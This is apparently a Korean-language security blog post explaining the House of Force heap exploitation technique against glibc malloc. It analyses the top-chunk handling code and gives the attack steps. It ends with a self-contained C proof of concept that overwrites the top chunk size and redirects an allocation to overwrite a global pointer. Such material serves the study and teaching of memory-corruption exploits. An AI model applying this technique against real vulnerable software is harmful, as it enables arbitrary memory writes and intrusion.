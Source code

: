 ```yaml
---
layout: post
title: "House of Force"
author: "B3LLz"
tags: exploit-tech
excerpt_separator: <!--more-->
---
```


# House of Force

House of Force attack은 top chunk를 이용한 공격이다.

정확히는 Top chunk의 size를 조작하여 임의의 주소에 힙 청크를 할당시킬 수 있는 공격이다.

# Top Chunk 처리 코드 분석

다음은 `malloc.c` 의 소스코드에서 Top Chunk를 처리하는 `_int_malloc()`의 일부분이다.

```c
victim = av->top;  // top chunk의 주소를 가져옴.
size = chunksize (victim);  // top chunk의 size를 구함.

if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
  {
    remainder_size = size - nb;
    remainder = chunk_at_offset (victim, nb);
    av->top = remainder;
    set_head (victim, nb | PREV_INUSE |
              (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head (remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk (av, victim, nb);
    void *p = chunk2mem (victim);
    alloc_perturb (p, bytes);
    return p;
  }
```

1. Top Chunk의 주소와 크기를 저장한다(`victim = av→top`, `size = chunksize(victim)`).
2. Top Chunk의 크기가  `nb + MINSIZE` (요청받은 Chunk의 크기 + Chunk의 최소 크기)보다 크거나 같은지 검사한다.
3. Top Chunk의 크기`size`에서 `nb`를 빼준 값을 `remainder_size`에 저장한다.
4. `**chunk_at_offset` 매크로를 통해 반환된 값을 `remainder` 에 저장한다. `chunk_at_offset` 매크로는 아래와같이 정의되어 있다.**
    
    ```c
    #define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s)))
    ```
    
    따라서 Top Chunk의 주소 값 `victim`에 `nb`를 더해준 값을 반환한다.
    
5. `remainder`는 다시 Top Chunk(`av→top`)에 저장한다.
6. `set_head`를 통해 Chunk의 header 부분을 setting 해주고 힙 영역에 메모리를 할당한다.

# House of Force Attack Flow

1. `malloc()`으로 힙 영역에 메모리를 할당한다.
    
    ![hof1](/image/hof1.png)
    
2. Top Chunk의 size 값을 `0xffffffff`(32bit)나  `0xffffffffffffffff`(64bit) 값으로 덮어쓴다.
    - 위에서 설명했던 것처럼`_int_malloc`에서 Top Chunk의 크기와 할당을 요청받은 크기를 비교하는 조건문을 참으로 만들어 힙 영역에 메모리를 할당할 수 있게 한다.
    
    ![hof2](/image/hof2.png)
    
3. 원하는 주소를 할당 받기 위해 아래의 값을 `malloc()` 인자로 전달한다.
    
    [`할당 받고자하는 메모리 주소 - Chunk header size - Top Chunk addr - Chunk header size`]
    
    ex) `0x601048 - 0x10 - 0x6024A0 - 0x10 = 0xffffffffffffeb88`
    
    - 계산된 값을 `malloc()`의 인자로 넣어주게 되면 인자로 넣어준 크기만큼 메모리를 할당하게 되는데 위에서 설명한 `chunk_at_offset` 매크로를 통해 Top Chunk의 주소가   `top chunk 주소 + 할당 요청 크기`가 된다.
    
    ![hof3](/image/hof3.png)
    
4. 그리고 다시 한 번 `malloc()`을 호출하면 원하는 주소를 반환한다.
    - 다시 한 번 `malloc()`을 해줌으로써 Target Address에 메모리가 할당된다.
    
    ![hof4](/image/hof4.png)
    

# Example

아래의 코드는 다음과 같은 동작을 하며 Target Address는 `0x601048` 이다.

1. 128byte 크기의 메모리를 할당한다.
2. Top Chunk의 Size를 `0xffffffffffffffff`으로 Overwrite 한다.
3. House of Force 공격을 하기 위해 메모리 할당해줄 크기를 구한다.
    1. `(uint64_t)(&target) - 0x10 - (uint64_t)top_chunk - 0x18`에서 `0x18`인 이유는 Target Address가 `0x601048`로 되어있기 때문에 보다 정확하게 할당해주기 위해서 Target Address의 메타데이터 크기인 `0x10`에서 `0x8`을 더 빼주었다.
    2. 힙은 16byte 단위로 메모리를 할당해주기 때문에 `0x10`만 빼주어도 `0x18`을 빼준 것과 동일한 주소에 할당을 해주지만 정확한 위치에 할당해주기 위함이다.
4. `malloc()`으로 메모리 할당을 한 번 더 해주면 Target Address의 값을 변조할 수 있다.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>

char* target = "Target!!!";
char* exploit = "EXPL0I7!!!!";

int main(int argc, char* argv[]){
    uint64_t* buf1, *buf2, *buf3;
    uint64_t* top_chunk_size;
    uint64_t* top_chunk;

    printf("==Before House of Force Attack==\n");
    printf("[+] Target ===> %s\n\n", target);
    printf("Target Addr: %p\n\n", &target);

    printf("1. malloc(128)\n");
    buf1 = malloc(128); // Memory Alloc

    top_chunk = &buf1[16];       // Top Chunk Addr
    top_chunk_size = &buf1[17];  // Top Chunk Size Addr

    printf("Top Chunk Addr: %p\n", top_chunk_size);
    printf("Top Chunk Size: 0x%lx\n\n", *top_chunk_size);

    /* Top Chunk Size Overwrite */
    printf("2. OverWrite Top Chunk Size\n");
    *top_chunk_size = 0xffffffffffffffff;
    printf("Top Chunk Addr: %p\n", top_chunk_size);
    printf("Top Chunk Size: 0x%lx\n\n", *top_chunk_size);

    /* Calculate Address to House of Force */
    uint64_t calc = (uint64_t)(&target) - 0x10 - (uint64_t)top_chunk - 0x18;
    printf("3. House of Force!!\n");

    printf("Calc : %lx\n", calc);
    printf("malloc(0x%lx)\n", calc);

    /* House of Force */
    buf2 = malloc(calc);
    printf("[+] buf2 addr: %p\n", buf2);

    /* One More Allocation */
    buf3 = malloc(128);
    printf("[+] buf3 addr: %p\n\n", buf3);

    buf3[1] = (uint64_t)exploit;

    printf("==After House of Force Attack==\n");
    printf("[+] Target ===> %s\n\n", target);

    return 0;
}
```